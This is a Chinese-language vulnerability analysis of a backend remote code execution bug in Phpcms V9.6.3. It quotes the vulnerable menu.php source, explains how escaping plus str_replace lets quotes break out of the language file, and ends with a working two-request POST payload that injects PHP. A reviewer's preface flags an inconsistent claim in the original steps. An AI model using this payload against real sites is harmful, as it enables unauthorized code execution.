


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：后台管理员及pc_hash，语言文件可写，多次请求状态依赖

- **适用与权限边界（1）**：require得到解释后的字符串而file_get_contents保留源码反斜杠，文中说两者读取都不含反斜杠错误。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（2）**：步骤先建LANG1后又说第一次keyNULL，初始状态叙述冲突，应按全新键复核。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **操作与副作用边界（3）**：多次字符串替换可破坏共享语言文件导致500，副作用需明示；PHP代码执行非直接OS命令。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **结论使用边界（4）**：保留原始源码/两阶段请求，比单PoC有价值。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Phpcms V9.6.3 后台远程命令执行漏洞

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.6.3

三、复现过程
------------

### 漏洞分析

漏洞代码位于 `/phpcms/modules/admin/menu.php` 第 81 行

    function edit() {
        if(isset($_POST['dosubmit'])) {
            $id = intval($_POST['id']);
            //print_r($_POST['info']);exit;
            $r = $this->db->get_one(array('id'=>$id));
            $this->db->update($_POST['info'],array('id'=>$id));
            //修改语言文件
            $file = PC_PATH.'languages'.DIRECTORY_SEPARATOR.'zh-cn'.DIRECTORY_SEPARATOR.'system_menu.lang.php';
            require $file;
            $key = $_POST['info']['name'];
            if(!isset($LANG[$key])) {
                $content = file_get_contents($file);
                $content = substr($content,0,-2);
                $data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";
                file_put_contents($file,$data);
            } elseif(isset($LANG[$key]) && $LANG[$key]!=$_POST['language']) {
                $content = file_get_contents($file);
                $content = str_replace($LANG[$key],$_POST['language'],$content);
                file_put_contents($file,$content);
            }
            $this->update_menu_models($id, $r, $_POST['info']);          
            //结束语言文件修改
            showmessage(L('operation_success'));
        } else {

        .  .  .   .  .  .  

        }
    }

这段代码是修改语言文件用的，而这个语言文件就是
/phpcms/languages/zh-cn/system\_menu.lang.php

里面一堆类似 `$LANG['video'] = '视频';` 的东西

当时用 rips 扫描发现的大多是
`$data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";`
这种拼接操作，而且 POST 中的单引号会被转义，无法逃逸

转义代码位于 `/phpcms/libs/classes/param.class.php`

    public function __construct() {
        if(!get_magic_quotes_gpc()) {
            $_POST = new_addslashes($_POST);
            $_GET = new_addslashes($_GET);
            $_REQUEST = new_addslashes($_REQUEST);
            $_COOKIE = new_addslashes($_COOKIE);
        }

    }

而这里突然看到一个 str\_replace ，
`str_replace($LANG[$key],$_POST['language'],$content)`，感觉可能会有漏洞

一番胡乱测试之后惊奇的发现网站 500 了，细看原来是单引号逃逸导致报错

下面是漏洞分析过程

首先要登录后台拿到 pc\_hash 的值，这个是防止提交恶意数据的，后台首页 F12
就能看到

然后访问：

    http://www.0-sec.org:9000/index.php?m=admin&c=menu&a=edit&pc_hash=wCuF7w

phpcms 的路由和那个 yzmcms 差不多，m 是模块名，对应 /phpcms
下的文件夹，c 是控制器名，对应 /phpcms/模块/ 下的 php 文件名，a
则对应控制器类的类函数名

发送 POST 请求：

    dosubmit=1&info[name]=1&language=1

语言文件最后会新添内容

    $LANG['1'] = '1';

### 第一次请求

发送 POST 请求：

    dosubmit=1&info[name]=1&language=1'

`require $file;` 引入语言文件，`$LANG[$key]` 的值还是
NULL，所以执行拼接操作

    $data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";
    file_put_contents($file,$data);

得到语言文件新添内容为

    $LANG['1'] = '1\'';
    ?>

### 第二次请求

发送与第一次相同的 POST 请求

`require $file;` 引入语言文件得到 `$LANG[$key]` 的值是
`string(2) "1'"`，也就是说，没有反斜杠，这样问题就出现了，我们同样的请求发送了两次，按照代码逻辑来看，是不应该更新
`$LANG[$key]` 的值的

但是因为 `require` 和 `file_get_contents`
函数读取之后的文件内容不含反斜杠，而我们 POST 传入的 language
会被转义处理得到的值是 `string(3) "1\'"`

于是判断 `$LANG[$key]!=$_POST['language']` 就成立了，接着 `str_replace`
函数进行字符串替换操作，把原来的 `$LANG['1'] = '1\'';` 中的 `1'` 替换成
`1\'`，最终写入文件

结果就得到了以下文件内容，第二个单引号被反斜杠转义，无法闭合

    $LANG['1\'] = '1\'';
    ?>

payload:

发送两次以下请求，访问语言文件
http://www.0-sec.org:9000/phpcms/languages/zh-cn/system\_menu.lang.php
即可得到 phpinfo

URL:

    http://www.0-sec.org:9000/index.php?m=admin&c=menu&a=edit&pc_hash=wCuF7w

POST:

    dosubmit=1&info[name]=];phpinfo();//1&language=];phpinfo();//1'

参考链接
--------

> http://j0k3r.top/2019/10/09/phpcmsv9.6.3\_background\_rce/
